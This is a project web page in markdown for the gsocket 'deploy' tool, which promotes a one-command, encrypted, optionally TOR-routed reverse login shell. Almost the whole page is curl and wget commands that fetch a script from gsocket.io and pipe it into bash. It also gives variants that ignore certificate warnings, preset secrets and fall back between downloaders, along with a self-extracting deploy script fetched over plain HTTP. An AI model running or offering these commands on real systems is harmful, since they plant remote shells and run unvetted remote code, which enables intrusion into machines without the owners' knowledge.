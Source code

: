 ```yaml
---
layout: default
---
```


<p class="panel-note2" markdown="1">Can no longer connect to your deployed gs-netcat? Use this command >>*S=YourSecret bash -c "$(curl -fsSL gsocket.io/**xold**)"*<< or >>*S=YourSecret bash -c "$(wget -qO- gsocket.io/**xold**)"*<< to access your old session. [Click here to update to 1.4.32 or later]({{site.github.repository_url}}/blob/master/deploy/README-update.md).</p>

Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to access a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Use either command to _access_ the remote host:
```shell
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
S="ExampleSecretChangeMe" bash -c "$(wget -qO- gsocket.io/x)"
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Ignore SSL / Certificate warnings:
```shell
bash -c "$(curl -fsSLk gsocket.io/x)"
```
```shell
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
```

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget -qO- gsocket.io/x)")
```
  
Deploy from self-extracting shell-script [deploy-all.sh](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh) without fetching any packages:
```
# wget https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh
wget --no-hsts http://nossl.segfault.net/deploy-all.sh
chmod 755 deploy-all.sh
./deploy-all.sh
# Use "GS_UNDO=1 ./deploy-all.sh" to uninstall
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>



